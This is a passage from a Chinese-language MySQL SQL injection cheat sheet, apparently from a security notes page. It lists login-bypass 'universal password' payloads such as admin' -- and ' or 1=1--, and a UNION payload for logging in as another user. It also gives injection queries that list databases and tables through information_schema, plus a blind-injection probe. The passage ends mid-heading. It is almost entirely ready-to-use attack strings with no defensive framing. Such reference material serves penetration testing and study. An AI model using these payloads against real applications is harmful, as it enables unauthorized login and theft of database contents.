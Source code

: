 -   `/*! MYSQL专属 */`

    ```sql
    SELECT /*!32302 1/0, */ 1 FROM tablename
    ```

### 字符串编码

-   `ASCII()`：返回字符的 ASCII 码值
-   `CHAR()`：把整数转换为对应的字符

## 后台万能密码

-   `admin' --`
-   `admin' #`
-   `admin'/*`
-   `' or 1=1--`
-   `' or 1=1#`
-   `' or 1=1/*`
-   `') or '1'='1--`
-   `') or ('1'='1--`
-   以不同的用户登陆 `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

## 注入语句备忘

### 数据库名

```sql
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### 表名

-   union 查询

    ```sql
    --MySQL 4版本时用version=9，MySQL 5版本时用version=10
    UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
    UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */
    SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
    ```

-   盲注

    ```sql
    AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
    ```

-   报错
